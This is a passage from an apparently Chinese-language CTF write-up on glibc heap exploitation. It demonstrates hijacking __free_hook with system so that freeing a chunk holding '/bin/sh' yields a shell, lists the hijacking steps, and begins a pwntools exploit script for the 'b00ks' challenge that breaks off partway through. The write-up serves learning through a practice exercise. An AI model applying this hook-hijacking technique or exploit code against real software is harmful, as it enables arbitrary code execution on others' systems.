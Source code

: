 **执行结果**

```
ex@ubuntu:~/test$ gcc -o demo -g demo.c 
demo.c: In function ‘main’:
demo.c:12:9: warning: format ‘%X’ expects argument of type ‘unsigned int’, but argument 2 has type ‘void (*)(void *, const void *)’ [-Wformat=]
  printf("__free_hook: 0x%016X\n",__free_hook);
         ^
demo.c:14:14: warning: assignment from incompatible pointer type [-Wincompatible-pointer-types]
  __free_hook = system;
              ^
ex@ubuntu:~/test$ ./demo 
__free_hook: 0x0000000000000000
$ echo hello world
hello world
```

**再简单一句话概括：__free_hook执行时会把chunk中的用户数据作为参数。**

所以挟持的步骤：

1. 把__free_hook的地址改为system地址（或者直接one_gadget）
2. 把待free的chunk中的内容改为’/bin/sh’
3. 执行free(之前修改的chunk，相当于执行system)

### EXP

```
# -*- coding: utf-8 -*- 
from pwn import *
context.log_level='debug'
io = process("./b00ks")
# io=remote('node4.buuoj.cn',29695)
elf=ELF('./b00ks')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
def createbook(name_size, name, des_size, des):
    io.readuntil("> ")
    io.sendline("1")
    io.readuntil(": ")
    io.sendline(str(name_size))
    io.readuntil(": ")
    io.sendline(name)
    io.readuntil(": ")
    io.sendline(str(des_size))
    io.readuntil(": ")
    io.sendline(des)

def printbook(id):
    io.readuntil("> ")
    io.sendline("4")
    io.readuntil(": ")
    for i in range(id):
        book_id = int(io.readline()[:-1])
        io.readuntil(": ")
        book_name = io.readline()[:-1]
        io.readuntil(": ")
        book_des = io.readline()[:-1]
        io.readuntil(": ")
        book_author = io.readline()[:-1]
    return book_id, book_name, book_des, book_author
def createname(name):
    io.readuntil("name: ")
    io.sendline(name)

def changename(name):
```
